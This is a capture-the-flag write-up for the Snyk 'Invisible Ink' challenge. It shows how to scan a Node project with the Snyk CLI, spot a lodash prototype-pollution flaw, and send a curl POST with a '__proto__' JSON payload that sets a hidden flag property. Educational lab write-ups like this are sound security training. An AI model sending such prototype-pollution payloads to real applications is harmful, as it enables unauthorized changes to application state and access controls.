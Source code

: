 # Invisible Ink

## Objective

Retrive a flag throuh a POST request manipulating the value through a vulnerability

# Resources to install

***Link***: https://ctf-101.snyk.io/challenges#Invisible%20Ink

***Server***: http://35.211.53.53:8000/

Expose hidden vulnerabilities in the web application.

***Hint***: download Snyk CLI scans to the packet.json -> 
https://github.com/snyk/snyk#installation

Install npm if you don't have ii yet:

```
$sudo apt-get install npm
```

Now install snyk CLI:

```
$npm install snyk@latest -g
```

You need to access to snyk before you can run the command to test the package->

```
$snyk auth  (I suggest to access with gitHub)
```

Now you have to install the package

***what is package.json*** -> https://blog.ezekielekunola.com/understanding-the-package.json-file

```
$npm install package.json
```

Run this command into the folder with package.json, where you have just ran the previous command:

```
$snyk monitor
```

This command will show you the current vulnerabilities found.
Possible  response:

Explore this snapshot at https://app.snyk.io/org/emanuelepicas/project/3137722f-04f4-4af7-8a0e-2952b5192a51/history/f2123751-8d69-448f-83d6-87c2d005d96b

Notifications about newly disclosed issues related to these dependencies will be emailed to you.

Click on the link generated here you will find the current Vunerabilities



Browsing into the ***server*** to hack, you will find a response, which will suggest you a request to do.
Below there is the command to run:

```
$curl -X POST 35.211.53.53:8000/echo -H "Content-Type: application/json" -d '{"message": "ping"}' 
```

***Response***

{"userID":"::ffff:82.57.151.149","time":1651490382169,"message":"ping","flag":"disabled"} 

If we take a look at the file index.js, we can see that the script will output the flag if the value of the flag is on true.


We need to manipulate the object to retrive the flag using a vulnerabilities that we can find from the previous command: "snyk monitor"

A good one could be prototipe pollution:

https://security.snyk.io/vuln/SNYK-JS-LODASH-567746

This could be a possible solution:

```
$curl -X POST 35.211.53.53:8000/echo -H "Content-Type: application/json" -d '{"message":"ping","__proto__":{"flag":"true"}}'
```

***Response***

{"userID":"::ffff:82.57.151.149","time":1651497940769,"message":"ping","flag":"SNYK{FLAGTOFIND}"} 

# Reference

***understanding prototype*** -> https://www.whitesourcesoftware.com/resources/blog/prototype-pollution-vulnerabilities/
